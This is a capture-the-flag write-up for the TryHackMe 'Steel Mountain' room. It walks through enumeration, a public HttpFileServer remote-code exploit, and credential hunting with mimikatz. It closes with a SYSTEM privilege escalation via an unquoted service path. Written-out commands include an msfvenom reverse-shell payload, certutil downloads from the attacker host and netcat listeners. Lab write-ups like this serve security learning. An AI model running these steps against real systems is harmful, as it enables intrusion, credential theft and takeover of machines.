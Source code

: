 # SteelMountain [THM](https://tryhackme.com/room/steelmountain)
![steel-mountain-01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/steel-mountain-01.png)

## recon 

Lets kick off enumeration with `nmap`:

`nmap -T4 -p- -A -Pn 10.10.80.108`

![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/nmap-res-02.png)

we have the following services:

+ An IIS V8.5 server on port 80.
+ An RPC endpoint on port 135.
+ NETBIOS-SSN on port 139.
+ SMB on port 445.
+ RDP V6.3 on port 3389.
+ An HTTPAPI on ports 5985 and 47001.
+ An HTTP File server on port 8080.

Trying to interact with the RDP fails on an authorization error:

`Failed to connect, CredSSP required by server`. 

This happens becuase our kali machine isnt setup with kerberos. 

Lets check the SMB, see if its misconfigured, maybe we can find credetials there. 
Then well take a look at the web server and the various API's.



### SMB 445

If we try to login anonymously with `smbclient` we get kicked out:

![smbclinet-fail-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/smbclient-fail-03.png)


If we try `crackmapexec` this fails as well:

![crackmapexec-fail-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/crackmapexec-fail-04.png)


Looks like a dead end, we need creds. Lets check the HTTP server. 



### HTTP 80

Navigating towards the site's URL `http://10.10.80.108`

![site-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/site-05.png)


Look empty. I've tried directory busting, it only leads to an `img` directory with noting interesting. 
Source code looks empty as well:

![site-source-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/site-source-06.png)

Lets take a look at the file server.


### HttpFileServer 8080


If we navigate towards the target URL `http://10.10.80.108:8080`

![file-server-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/file-server-07.png)


We have a search feature, and a login form, but we dont need to log in to search stuff. 
Searching yields nothing, but if we check for known vulnerabilities online we find something juicy:

![exploitdb-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/exploitdb-08.png)

[Source](https://www.exploit-db.com/exploits/39161)


Looks like Python 2, appears to be abusing the search feature:

![exploit-analyze-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/exploit-analyze-09.png)


Looks promising. Worth a shot. 


## Exploit

Here is the exploitation breakdown: 

1) Download the exploit to your kali, and make sure to update your IP and port:

![update-exploit-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/update-exploit-10.png)


2) Place a copy of `nc.exe` in a directory of your choosing and fire off an HTTP server on port 80

`python3 -m http.server 80` 

![http-server-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/http-server-11.png)


3) Start the listener with `nc -lvnp 8044`


4) Execute the exploit with `./exploit.py 10.10.8.108 8080`


5) Get a shell:

![shell-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/shell-12.png)


Lets get system!



## Privilege Escalation 

If we run `systeminfo`:

![sysinfo-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/sysinfo-13.png)


We are dealing with a MS server 2012 R2. Lets try searching for stored credentials.   

I tried manual searching with:

`findstr /spin "password" *.*`

I tried searching the regestry with:

`reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`

I then tried [mimikatz](https://github.com/gentilkiwi/mimikatz)
Download the tool, transfer to the clinet via python web server and `certutil`.

I tried running `vault::cred`

![mimikatz-14](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/mimikatz-14.png)

Looks like a password. I tried connecting via the RDP, same error of:

`Failed to connect, CredSSP required by server`

I tried using the password to enumerate the smb with different tools like `enum4linux` and `smbclient`,
nothing interesting came up. 

Decided to shift gears and try [winpeas](https://github.com/carlospolop/PEASS-ng/releases/tag/20230731-452f0c44) We need the `winPEASx64.exe` binary. 

1) Transfer it to the clinet using a python server with:

`python3 -m http.server 80`

2) Download it to the target with:

`certutil -urlcache -f http://10.18.22.182/winPEASx64.exe winpeas.exe`

3) Execute `winpeas.exe`

![winpeas-15](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/winpeas-15.png)

We have an unquoted service with spaces, we can potentially hijack this with our own custom binary. 
Our user also has full write permission to this directory. 

Lets examine this process. First lets run `net start` to list all running processes:

![net-start-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/net-start-16.png)

Lets check its properties, primarly, under which user it runs. We can do this with:

`sc qc AdvancedSystemCareService9`

![sc-16](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/sc-16.png)

It runs as the system. We can abuse this to gain system access. 

1) Create venom 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.18.22.182 LPORT=9009 -f exe > ASCService.exe`


2) Stop the service on the target with:

`net stop AdvancedSystemCareService9`


3) Download the venom to the target with:

`certutil -urlcache -f http://10.18.22.182/ASCService.exe ASCService.exe`


4) Start the listener with:

`nc -lvnp 9009`


5) Start the service with:

`net start AdvancedSystemCareService9`


6) Get system:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Steel_Mountain/img/root-17.png)
